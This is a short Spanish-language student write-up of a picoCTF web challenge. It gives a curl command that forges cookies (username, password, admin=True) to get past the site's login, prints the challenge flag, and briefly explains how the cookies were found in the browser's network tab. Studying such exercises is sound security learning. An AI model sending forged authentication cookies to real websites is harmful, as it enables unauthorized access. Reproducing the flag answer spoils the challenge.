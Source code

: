 
Descripcion:
The factory is hiding things from all of its users. Can you login as Joe and find what they've been looking at? `https://jupiter.challenges.picoctf.org/problem/44573/` ([link](https://jupiter.challenges.picoctf.org/problem/44573/)) or http://jupiter.challenges.picoctf.org:44573.

Solucion(s):
eduar-picoctf@webshell:~$ curl -X GET https://jupiter.challenges.picoctf.org/problem/44573/flag -H 
"Cookie: username=admin; password=admin; admin=True" | grep pico

picoCTF{th3_c0nsp1r4cy_l1v3s_0c98aacc}

Notas:
Inspeccionamos la pagina dada y nos vamos al apartado de Network, estando hay actualizamos las pagina para ver las cookies que implementa la pagina. 

sacamos el enlace al cual hace la referencia la flag y con el comando "curl"
obtenemos una coneccion para cambiar la conbiar la contrasenia el usuario y el estado de validacion.

Referencias:
Observaciones hechas en clase.